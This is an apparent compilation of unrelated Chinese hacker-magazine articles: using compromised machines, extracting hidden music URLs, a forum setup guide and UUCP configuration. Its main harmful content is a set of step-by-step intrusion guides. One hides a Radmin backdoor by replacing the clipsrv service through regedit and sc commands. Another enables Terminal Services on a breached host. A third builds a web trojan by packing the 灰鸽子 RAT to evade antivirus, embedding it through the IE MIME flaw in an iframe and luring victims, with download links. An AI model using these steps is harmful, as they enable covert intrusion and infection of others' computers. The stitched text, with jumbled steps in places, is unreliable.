由于对游戏没有多大兴趣，所以在肉鸡上架私服自己从来没有想过。直到有一次在灰色上看到关于如何利用肉鸡赚钱的讨论时才注意到的，现在看来这也是个不错的选择。虽然说这有悖于厂商的利益，但是面对厂商们的高价盘剥，还是有很多朋友愿意到私服里逛的。关于私服如何架设在这里不做讨论，但是有一点是要注意的，私服对机器的硬件配置要求很高，而且带宽同样相当严格，要是一般的机器还是放弃这个想法比较好。

肉鸡的利用不单以上几种，你大可发挥自己的想像力和技术，但是还有一点是要注意的，那就是尽量小心，要不然被管理员发现了，就什么都没的玩了。

```html
<meta name="GENERATOR" content="Microsoft FrontPage 4.0"><META HTTP-EQUIV="luxiaoqing" CONTENT="no-cache">
<meta name="ProgId" content="FrontPage.Editor.Document.quot"><title>—★ 9TING.COM—久听音乐 ★—</title></head><frameset rows="121,*" frameborder=0 border=0>
<frame name="top" src="rd18musicplay.asp?pass=music&id=1507" scrolling="no" framespacing=0 marginheight=0 marginwidth=0>
<frame>
</frameset></html>
```
本页使用的框架结构，你的浏览器不支持，请升级你的浏览器

这么多，哪个才是重点呢？稍微懂点网页的人一眼就可以看出来：`rd18musicplay.asp?pass=music&id=1507` 这段代码可是很重要哦，根据相对路径的知识，我们应该想到 `http://www.9ting.com/rd18musicplay.asp?pass=music&id=1507` 这个就是真实的音乐文件的隐藏处！不知你在点击听时注意到跳出的那个窗口没有？即使你不懂网页也可以得到 `http://www.9ting.com/rd18musicplay.asp?pass=music&id=1507` 这个地址。把跳出的那个窗口最大化，注意到网页顶端的标题了吗？就是这首歌的隐藏处。

我们输入上面的网址后，发生了奇迹，弹出一个警告！提示“您非法登录！已纪录 IP！”。

这个当然是吓唬人的，不用管，点“确定”！又弹出的警告是：你查看的网页正在试图关闭窗口。当然，我们不要关闭，选择“否”。有人会问，那我们辛辛苦苦得到的网址难道就没用了吗？别着急嘛，继续往下看。

把刚才得到的网址用 FlashGet 下载该网页！下载后我们发现是一个 asp 文件，用记事本打开，我们看到了一大堆代码，其主要的代码如下：
```html
<div align="center">
<table border="0" cellpadding="0" cellspacing="0" width="275">
<tr>
<td width="6" background="images/rd18Play/my-1.gif"></td>
<td width="*">
<OBJECT ID="mPlayer1" WIDTH=263 HEIGHT=70 CLASSID="CLSID:22D6F312-B0F6-11D0-94AB-0080C74C7E95" type="video/x-ms-asf-plugin" pluginspage="http://www.microsoft.com/go/fwlink/?linkid=.../windows/mediaplayer/default.asp">
  <PARAM NAME="ShowControls" value="1">
  <PARAM NAME="ShowStatusBar" value="1">
  <PARAM NAME="SRC" value="rd18musicplaywma.asp?id=1507&pass=****">
</OBJECT>
```
不知道大家注意到了没有，这个代码 `rd18musicplaywma.asp?id=1507&pass=****` 和刚才的代码 `rd18musicplay.asp?pass=music&id=1507` 是不是极其的相似呢？

现在你该知道怎么做了吧？输入网址：`http://www.9ting.com/rd18musicplaywma.asp?id=1507&pass=****`，怎么直接就播放了呢？这样的网址可不规范哦！

还是老办法，下载该网址吧！记事本打开后，我们终于看到了熟悉的代码：
```xml
<ASX version="3.0"><TITLE>9ting.com--久听音乐网</TITLE><entry SKIPIFREF="YES">
<title>这些年来</title><author>张国荣</author><copyright>9ting.com--久听音乐网</copyright>
<ref href="http://61.172.249.74:9380//rd1801/0140/1.Wma"/></ENTRY></ASX>
```
现在你该知道具体的音乐文件的网址了吧？`http://61.172.249.74:9380//rd1801/0140/1.Wma`，大功告成！怎么样？是不是有点成就感？

很多黑客技术爱好者在成功进入目标机器后，常会留下一个后门，以便为下次进入时提供方便。而启动这些程序的存放位置通常放在注册表下类似 Run 位置或在系统中以服务方式运行。存放在注册表中类似 Run 位置的启动选项比较容易被发现；在 Windows NT/2K/XP 下还受是否登录的影响，因此，后门程序存放在 Run 位置已经成为历史。如果能够让后门程序以服务的方式运行的话，就可不受是否登录的限制而自动运行了，但很多以服务方式运行的后门程序通常在安装完成后会自己创建一项新的服务，以便启动程序。由于是新增的服务，很有可能被细心的管理员发现。如果对新增的服务进行替换操作，把新增的服务替换成系统自带的服务，不是就能达到很好的隐藏自己的目的吗？

## 永久的后门——替换系统服务的实现
文/netff
看完《后门程序的隐藏》一文后，发现其中有一部分写得不是很好，就是在将 Remote Administrator（下面简称 radmin）安装完成后，做替换系统服务时存在问题。原先的处理方式是删除 clipsrv 服务并将 radmin 安装后所产生的 r_server 服务在服务列表处的显示名称更改为 clipbook（具体详见该文）。由于个人技术原因，当时没有办法在该服务的属性中做进一步的隐藏。其实，替换系统服务早在几年前就有做到用到，但我一直没有找到这方面的资料。最近，在对某个程序的调试过程中发现了一个较好的隐藏方法，现在共享一下我的方法。这里还是以 radmin 为例来做介绍。

先将 radmin 远程安装所需的文件及 sc.exe 复制到对方机器，操作过程如图 1 所示。

现在我们已将所需文件复制到对方机器的 admin$\system32 文件夹下，各文件的作用分别是：
- `clipbook.exe`，更名后的 radmin 服务端；
- `radmin.reg`，radmin 的安装、设置信息，远程安装时需要用到；
- `Raddrv.dll`、`admdll.dll`，远程安装 radmin 服务端时要调用到它，一定要复制到对方机器上，否则在远程安装 radmin 时，对方机器会因为找不到所需文件而弹出一个错误对话框；
- `sc.exe`，微软 resource kit 工具箱中的一个工具，功能很多，主要用于管理系统服务。

打开对方的 telnet，并 telnet 到对方的机器上，先将 radmin 的配置信息导入注册表，再将 radmin 安装上，操作过程如下：
```bash
regedit /s radmin.reg
clipbook /install
```
Radmin 在安装完成后，会在注册表中新增相应的键项，在服务列表新增一项叫 r_server 的服务。现在我们不理会新增的服务，先将 radmin 安装完成后在注册表中 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services` 下产生的 `r_server` 子键导出，执行命令：
```bash
regedit /e netff.reg HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\r_server
```
`netff.reg` 是导出时指定的文件名称。将导出后的注册表文件复制回本地机器，选定它并按右键，在弹出的快捷方式中选“编辑”，系统会以文本文件的形式打开导出的注册表文件（图2）。

将所有的`r_server`更改为`Clipsrv`。当然，还有那一项“DisplayName”也要修改，“DisplayName”是在系统服务列表显示该服务的名称，radmin安装完成后在系统服务列表显示的名称是“Remote Administrator Service”，如果这个键项没有修改的话，那我们所做的修改跟原来没有做修改基本上是一样的，很容易被发现。所以这一项一定要修改，修改成“Clipbook”，这个跟原来系统自带的服务一样。

另外还要注意一下，在上面做修改的时候，要注意首字母大写，其余小写，尽量避免一些无谓的小环节而使我们的后门露出马脚，修改后的结果如图3所示。

修改完成后，保存退出。再将它复制到远程机器，再导入远程系统，执行命令：`regedit /s netff.reg`即可！

现在我们用`sc`查询一下`clipsrv`服务的状态，结果如图4所示。从图4我们可以判断出此时对方机器上`clipsrv`服务的状态。Clipsrv服务此时调用的程序已更改成我们要的项值，并且显示是自动启动且已启动，但由于它是在我们替换之前就启动的，所以该服务调用的程序还是原来的程序，要使其生效，必须重新启动该服务。另外，`clipsrv`服务在服务列表处依然显示是`Clipbook`。

如果你想看看它在对方机器是否如我们所想的那样，那我们也可以通过“计算机管理”连接到对方的机器上（连接方法：先和对方建立`ipc$`，然后打开“计算机管理”，在打开的对话框中选“计算机管理（本地）”并按右键，选“连接到另一台计算机”在打开的对话框中输入对方的IP地址），看看对方机器`clipsrv`服务此时在该机的真正面目（图5）。

有没有注意到图5显示的服务名称这个选项？它在这里显示的名称对应`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services`下的`clipsrv`子键的名称，如果`clipsrv`更名别的名称，机器重启后，它就显示别的名称（不建议这么做）。

现在我们按“启动”按钮启动服务。如果在CMD下，需要输入`net start clipbook`来启动。

好了，现在`radmin`的服务端可以为我们提供服务了，并且比原来的要隐藏得多，如果没有仔细去查看，还真的看不出真正的`clipsrv`服务被`kill`了。

对了，刚才`radmin`服务端已经在目标机器上安装过，并留下了`r_server`这项服务，现在它对我们来说，已无任何作用，我们需要删除它，否则会留下不必要的麻烦。现在我们用`sc`来删除它，只要执行`sc delete r_server`即可。

`sc`删除服务是即时性的，命令一旦执行完毕，整个服务就在系统中彻底结束。

整个过程就是这样，不复杂吧？

现在看看我们的木马后门，是不是隐藏得无影无踪了？


## 如何有效地启动远程主机终端服务
文/rongke
通常，我们入侵了一台主机之后，需要启动远程终端服务来进一步控制主机，幸运的话，我们可以在命令行中直接启动已经停止的终端服务，否则我们可能需要 sysocmgr.exe 安装服务。那么，是否还有别的途径，能更有效地启动终端服务呢？本文将进行讨论。

众所周知，如果远程主机已经安装了终端服务但停止了服务，我们可以通过我们已经获得的管理员权限利用计算机管理工具启动此服务。同时也可以利用 sysocmgr.exe 在命令行下远程安装服务，此方法的前提条件是：远程主机已经安装过终端服务，但已经卸载了或者主机上仍存在系统安装文件 i386，如果不是这样，用 sysocmgr.exe 仍然无法成功，因为用 sysocmgr.exe 命令安装时必须调用到 i386 中的一些文件，无人职守工具在系统重启时会自动寻找系统安装光盘目录下的 i386 文件，当然我们入侵时系统安装光盘不可能凑巧插在光驱里，所以利用此命令时，系统提示找不到指定文件，安装仍然无法成功。

若计算机名，点击“确定”如图1所示。远程主机提示输入有效用户名和密码，如图2所示。

图1

### 我们的方法
原理：通过修改 Windows 安装盘位置在注册表中键值，同时利用 sysocmgr.exe 成功安装终端。在此之前我们必须了解的是 Windows 系统在添加 Windows 组件时，系统提示我们插入安装光盘，同样的我们安装终端服务，也必须插入光盘。好吧，让我们用个移花接木计，把 Windows 安装盘的位置指向我们精心准备好的 i386 文件。

步骤一：前提我们得到了远程主机的管理权限。首先，运行 regedit.exe，选择“文件\连接网络注册表”输入远程主机IP或者计算机名。

图2

### 总结

1. 获得管理员权限，开 Telnet；
2. 拷贝 i386 到远程主机；
3. 修改注册表，使 Windows 光盘位置指向为你所拷贝的 i386 文件；
4. 利用 Sysocmgr 无人值守工具，安装终端服务。

将其改成：

“HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SourcePath” = “h:\i386” 如图5所示。

当然也可以通过脚本修改注册表，脚本见光盘。

**步骤二：** 将安装终端服务必须用到的 i386 文件（见附件）拷贝到远程主机上，如 H:\ 下。

然后再 Telnet（Telnet 没开！晕，注册表你都能修改，Telnet 你不能开？）过去，

输入你得到远程主机的用户名和密码。点击“确定”，稍等片刻就已经连接到了远程主机的注册表了。接下来，让我们来修改注册表，做好安装终端的准备工作吧。如图3所示。


找到“HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SourcePath” = “\\SIMPCHEN\Windows2000\server\i386”，如图4所示。


利用 Telnet 执行如下命令：

```
c:\echo [Components] > c:\startTS
c:\echo TSEnable = on >>c:\startTS
c:\sysocmgr /i:c:\winnt\inf\sysoc.inf /u:c:\startTS /q
```

也可以将其写成批处理文件（见附件），放在启动文件夹里。这样系统启动时，将自动运行。

OK，系统重新启动时，Sysocmgr 命令自动调用 h:\i386 文件！终端服务安装完成。如图6所示。


## 打造XP下的 SQL PHP+MYSQL论坛

当你在网络上光怪陆离的论坛里“灌水”时，一定想自己能拥有一个论坛吧。如果你拥有一台连接了 ADSL 的电脑，平时又喜爱上网的话，那就亲自动手制作一个吧！本文深入浅出，图文结合，让你一步一步学会建立一个网站，并开通自己的论坛！

听朋友说刚开了一个论坛，或者看到他人的论坛人气十足，是不是也想过自己动手建一个属于自己的论坛？其实，做起来一点也不难，且听我慢慢道来。

- 构建平台：Windows XP
- 所需软件：Apache V2.0.43 for Windows、PHP V4.2.3 for Windows、MYSQL V3.23.54。
- 这些软件在上海热线均有最新的版本可供下载，我们使用的论坛是紫铜社区 vBulletin 2.2，以方便建立。将这些软件下载好以后，我们的打造步骤就可以开始了！

首先，我们安装 Apache 服务器，在安装过程中，值得注意的是输入用户信息的步骤，如图1所示，若选择 Run As a Service，那么服务器将在每次电脑开启的时候自动运行，即作为系统的服务运行。否则，服务器需要我们手动开启。这里，我们选择前者，其他输入的信息如图1所示，改成适合你的域名便可。在下一个步骤中，选择 Complete，即完全安装。其他选项均按照默认值。

安装好了 Apache 服务器，在开始菜单中，可以通过运行 Restart 重启服务器、Start 开启或者 Stop 关闭。启动之后，可以在浏览器中输入 http://127.0.0.1/ 测试服务器运行是否正常。

接着，我们要安装 PHP 了。我们将下载的 zip 文件解压到 `C:\php` 中。此时 PHP 文件夹中的文件如图2所示。


我们需要把 `php.ini-dist` 复制到系统目录中，默认为 `C:\Windows`，并且改名为 `php.ini`，编辑该文件，找到 Windows Extensions，将其后的；`extension=php_exif.dll`，`extension=php_imap.dll`，`extension=php_ldap.dll`，`extension=php_zlib.dll` 前的分号去掉。其次，把 `php4ts.dll` 和 extensions 目录中的所有文件复制到 `C:\Windows\Sytem32` 中。最后，在开始菜单中的 Apache 程序项中，找到 “Edit the Apache httpd.conf Configuration File”，用记事本打开，到最后一行，添加：

```
LoadModule php4_module c:/php/sapi/
php4apache.dll
AddModule mod_php4.c
AddType application/x-httpd-php .php
```

做完以上所有的工作后，我们可以用 Restart 重启一下 Apache 服务器，此时，我们的服务器已经支持 PHP 了。接着，我们安装 MYSQL。按照默认值将 MYSQL 安装好后，执行 mysql\bin 下的 winmysqladmin.exe，弹出如图3所示对话框。


图3

这是我们所建立的 MYSQL 数据库的用户名和密码，按照你的需要填写好。这里我们在 Username 中填写 admin，密码是 password。然后按 OK，程序将会在屏幕右下方显示为一个红绿灯的图标（如图4）。


图4

我们可以用它来打开主界面、重启 MYSQL 服务器等等。

这样我们就建立了一个 PHP+MYSQL 的标准服务器。现在再来开启一个论坛！首先建立一个目录，如：C:\Website，用以存放网站的内容；然后用 “Edit the Apache httpd.conf Configuration File”，找到 DocumentRoot，将这一行改为 DocumentRoot “C:/website”。注意不要把斜杠打错，再用 Restart 重启 Apache 服务器。

将已经下载好的论坛的 Zip 文件和 Upload 及 extras 目录解压到 C:\Website 下。一切就绪，我们打开浏览器，输入 http://127.0.0.1/upload/admin/install.php，如果前面步骤操作正确，将出现如图5所示界面。


图5

点击“下一步”，进入设置页面，接着按照刚才我们设置的 MYSQL 的用户名和密码进行设置，其他选项如图6所示。


点击“更新 config.php”，继续进入下一步，只要前面操作无误，将进入论坛设置界面，此处你可以自行设置。现在，论坛已经建立完成了。

图6

如图7所示，我们可以打开这个样子很酷的论坛了。


图7

现在，我们需要做的就是查看自己的 IP，然后告诉你的朋友吧。通过运行 cmd.exe，我们输入 ipconfig，就可以查看自己的 IP 地址，这个 IP 地址加上论坛的位置（比如：http://IP/index.php），就是在 Internet 上访问你的论坛的方法。

当然，你也可以去申请一个动态域名，比如 3322.org，这样不必每次都要告诉朋友你的 IP 地址，别人就可以访问到你的论坛。除了论坛，你也可以通过你架设的服务器开发留言版、新闻系统、下载系统……此外，在 Apache 上，我们还可以架设 Perl 解释器，这样就可以建立基于 CGI 的网站了！

浏览自己的论坛，别有一番成就感。让别人浏览自己的论坛，也享受一下“网管”的滋味。赶快按照本文的步骤，架设一个属于你自己的论坛吧！

## 打造自己的网页木马

文/青山工作室·潇大鹏

网页木马一直以来只是一些老鸟的专利，像我等菜鸟只有中招的份儿，多少有点儿不甘心，总想着什么时候自己也做一个。不知道你有没有这种想法？如果有，还等什么呢？跟我来啊。

首先要选择一款木马，就选灰鸽子吧，反弹型木马；功能齐全还容易上手。灰鸽子的服务端程序需要我们自己生成，图1就是生成服务端程序的窗口。

不过在使用之前，我们需要对它做一下伪装。原因很简单，因为时下的杀毒软件能准确查杀。我们就用 Aspack2.12 为它加一个壳，其操作界面如图2所示。

点击“Open”选择我们要压缩的服务端程序，选择好后 Aspack2.12 会自动为你压缩，图3就是压缩成功的界面。

下面的“Test it!”按钮就是叫你运行一下看看好不好使唤。如果你对木马不了解的话，劝你还是不要运行了，再用杀毒软件试试（图4）。怎么样，我这可是最新的病毒库，居然也查不出来。

下面要做的就是与网页合并了。这里我们要用到“网页合并器正式版”，图5是它的操作界面。

把“要捆绑的可执行文件”和“要被插入的网页”选好后点击“保存”，然后点击“生成网页”。图6中的 fdsa.mht 就是生成的木马网页。

就是生成的木马网页。如果我们直接让别人浏览这份文件的话一定会引起怀疑，所以我们要在其他 html 文件里调用它。我们只要把 `<iframe src=fdsa.mht></iframe>` 插入其他网页文件里就可以了，当别人浏览这个网页的时候他就中了我们的木马。

把这两份文件一起传到网上，然后把网址发给你想要控制的人（记住是那份 html 文件的地址呀），想办法让他浏览。需要说明的是，在制造前最好先把自己的系统备份一下，没注册版本的灰鸽子可是不支持卸载的哦。

这种方法利用了 IE 的 MIME 漏洞，IE 浏览器在处理 MIME 头中 “content-type” 处特定的某些类型时存在问题。打开 fdsa.mht 文件可以看到 `content-type: audio/x-wav`，浏览器会把它当成 .wav 文件处理，所以如果系统没打补丁的话，会自动下载并执行该文件。

既然知道了它利用的漏洞，防范起来就简单了，最彻底的方法就是给你的系统升级，补上这个漏洞。不过也要记得下次上网时不要随便打开陌生网友给的网址呀。


注：灰鸽子下载地址：http://www.sq88.net/down/SoftDown.asp?ID=2707

网页合并器正式版下载地址：http://www.sq88.com/down/SoftDown.asp?ID=1417


> **编后**
>
> IE MIME 头附件执行漏洞的危害比较大，自 2001 年 3 月 29 日被发现的第 54 天后就爆发了许多利用此漏洞的病毒：W32.Bird、W32.Bugbear、W32.Klez、W32.Aliz、W32.Nimda、W32.Badtrans、W32.Frethem、W32.Yaha、W32.Manymize、W32.Chir、W32.Holar、W32.Appix、W32.Mimail、Winevar。手工利用此漏洞的危害性更大，更难以防范，杜绝的最好办法就是升级 IE 并打上 IE 的补丁包。

## 如何在 Linux 下建立一个拨入系统

文／小华健


我们通常为了得到某个系统的网络服务，比如电子邮件和 Usenet 新闻，可在系统中建立一个拨入服务，这就需要用到 UUCP 服务。UUCP（即 UNIX 互拷）的主要作用是拷贝文件从一台远程主机上到另一台机器上，执行某些命令在远程的主机上。下面我们利用它来建立一个拨入系统。

### 配置 UUCP 账户

首先，你必须允许登录你的串口，并且还要一些文件来配置 UUCP 账户系统。

在这之前，你先建立一个用户账户，可以让远程站点登录你的系统，并且建立一个 UUCP 连接。可以为每个连接你系统的系统分别配备登录名字。当你为系统 Pablo 建立一个账户后，你可以给它起个用户名 Unablo。对于使用串行口拨入的系统，你通常必须加一些账户为这个系统的密码文件 /etc/passwd。它会非常好地保护并将所有 UUCP 登录用户放在一个特殊的文件里，例如 uuguest。这个账户的主目录可能被调整到公共的 Spool 目录 /var/spool/uucppublic 下。它的登录 shell 必须是 uucico（在这里 cico 代表拷贝里面和拷贝外面）。

```
uucp  stream  tcp  nowait  root  /usr/sbin/tcpd  /usr/lib/uucp/uucico -l
```

要通过 TCP 连接到你的站点来服务于 UUCP 系统，在 UUCP 端口就必须设置 inetd 标准的输入连接，可把下面这一行加到 /etc/inetd.conf 里面来实现。设置为 -l，使 uucico 执行它自己的登录授权。它很快地提示一个登录名和一个密码就好像标准化的登录程序。但会依靠它的私有密码数据而不是 /etc/passwd。这个私有的密码文件是 /etc/uucp/passwd，而且包含一些登录名字和密码。

```
Upablo   IslaNegra

Ulorca   co'rdoba
```

这个文件必须隶属于 UUCP，权限设置为 600。下面你需要做的就是用 getty 程序，它能告诉你 uucico 的调用 UUCP 用户。你可以按照下面的方法查看：

```
/usr/lib/uucp/uucico -l -u user
```

-u 的设置是告诉它用这个指定的用户户名。为了保证 UUCP 用户账户的安全，你应该为每一个系统登录建立一个 called-login 命令，这个应该建立在系统文件中。下面将对这方面进行描述。

### 小心冒名顶替者

还有一个关于 UUCP 主要问题是呼叫系统可能对其名字说谎。它在登录后声明它的名字给呼叫系统，但是没有任何方法检查它。然后一个入侵者可以注册他的或者她自己的 UUCP 账户，假装是其他人，并且可以得到那些人的站点邮件。假如你提供一个通过匿名 UUCP 的注册，一个公共密码，很不理想。所以你必须防范这些欺骗者。这个漏洞需要每个系统在 sys 用一个指定一个呼叫注册来使用一个特殊的注册名才能解决。

看下面的例子系统这样登录的：

```
system            pablo
usual options
called-login      Upablo
```

结果是当任何时候这个系统的日志里有而且还是假的 Pablo，uucico 检查是不是被记录做为 Unable。假如不是呼叫系统关闭，并且连接自动终止。你应当把加这个 called-login 命令到你的每个系统中的 sys 中系统登录的工作作为一个好的习惯保持下来。不论它们是否曾经呼叫过你的系统，做这些都是非常重要的。对于那些曾经呼叫过你的，你最好设置 called-login 到一些完全伪造的用户名，例如 neverlogsin。

### 拨号程序的查对

另外一个抵御和检查冒名者的方式是使用 call sequence checks（顺序呼叫检查）。这些可以帮助你对付那些经过控制想得到你的记录和 UUCP 系统的密码的人侵者。当用 call sequence checks，两台机器继续已经建立的连接，在每个连接上增加。在注册完后，呼叫者发送它的呼叫次序数字。被呼叫者检查它自己的数字，假如它们不相符，这个连接企图是不受理的。假如这个最初的数字次序选择是随机的，人侵者将非常难猜测这个连接的所有次序号码。但是 call sequence checks 为你做了很多工作。甚至假如有一些非常聪明的人侦破你的拨入次序还有你的密码，你也能发现这个人侵者。当这个人侵者拨你的 UUCP 端口而且偷取你的邮件，这将会在端呼叫次序数字上加一，下次你呼叫你自己的终端并注销的时候，这个远程 uucico 将拒绝你，因为数字已经和以前的不一样了。假如你已经启动了 call sequence checks，你能从检测日志文件里的错误信息找到人侵者。如果你的系统拒绝呼叫系统提供的顺序号码，uucico 将把 “Out of sequence call rejected.” 这个信息写到日志文件里。如果你的系统因为次序数字不在 sync 之列而被它的终端拒绝，它将写入 “Handshake failed (RBADSEQ).” 到日志文件。

为了使 call sequence checks 生效，可以进行如下操作：

```
# enable call sequence checks
sequence        true
```

另外，你需要创建一个文件包括这个次序号码。Taylor UUCP 保存这个号码在一个拨号文件里，依次在这个远程站点的卷目录中。它的所有者必须是 UUCP，并且属性设置为 600。最好先初始化这个文件；创建这个文件一个简单的方法如下：

```
# cd /var/spool/uucp/pablo
# echo 94316 > .Sequence
# chmod 600 .Sequence
# chown uucp.uucp .Sequence
```

当然，这个远程站点便使 call sequence checks 生效，并起用你使用的确切的顺序号码。

## 匿名UUCP

假如你想要提供匿名 UUCP 能够成功地连接到系统，应先建立一个特别的账户。一般的做法是给 UUCP 的匿名账户一个登录名和一个密码。另外，你还要建立一些安全设置为未知系统。例如你可能想阻止他们执行的任何命令在你的系统。然而，你不能设置一些参数到一个 sys 文件登录，因为这个系统命令要求未知的系统名字。

Unknown 命令可以在配置文件中指定任何可以经常出现在一个系统登录中的命令：

```
unknown        remote-receive ~/incoming
unknown        remote-send ~/pub
unknown        max-remote-debug none
unknown        command-path /usr/lib/uucp/
anon-bin       
unknown        commands rmail
```

这将限制未知系统只能从 pub 路径下下载文件和上载文件到 /var/spool/uucppublic 下面的进入路径。下一行使 uucico 忽略任何来自远程系统的打开本地 Debug 的请求。最后两行是允许未知系统从可执行的 rmail，但是指定的命令路径使 uucico 只是在一个名为 anon-bin 的个人路径下查找 rmail 命令。例如这样允许你提供一些特定的 rmail 转发所有的邮件到超级用户进行检查。这使匿名用户接触到系统的维护者，但是同时阻止它们侵入其他站点的任何邮件。使可能匿名 UUCP，你必须在配置上指定至少一个未知叙述，否则 uucico 可能将会拒绝任何的未知系统。

至此，一个安全的拨入系统就这样配置完成了，希望对正在为如何在 Linux 下配置拨入系统而冥思苦想的朋友有所帮助。